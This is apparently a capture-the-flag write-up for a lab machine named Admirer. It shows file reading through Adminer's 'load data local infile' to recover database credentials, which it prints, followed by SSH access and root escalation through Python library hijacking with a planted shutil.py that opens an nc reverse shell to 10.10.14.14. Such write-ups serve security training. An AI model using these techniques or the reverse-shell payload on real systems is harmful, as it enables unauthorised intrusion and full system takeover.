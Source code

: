 * Loaded local files via Adminer to get updated credentials:

```sql
create table test(data varchar(255));
load data local infile '../index.php'
into table test
fields terminated by "\n";
select * from test;
```

Updated credentials:

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

### SSH Access

```bash
ssh waldo@10.10.10.187
```

### Privilege Escalation

Check sudo permissions:

```bash
sudo -l
```

Output:

```
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

`/opt/scripts/admin_tasks.sh` calls `backup.py`:

```python
#!/usr/bin/python3
from shutil import make_archive

src = '/var/www/html/'
dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

* Used Python Library Hijacking to escalate privileges:

```bash
waldo@admirer:~$ echo "import os" > shutil.py
waldo@admirer:~$ echo "os.system('nc 10.10.14.14 4444 -e /bin/bash')" >> shutil.py
sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh
```
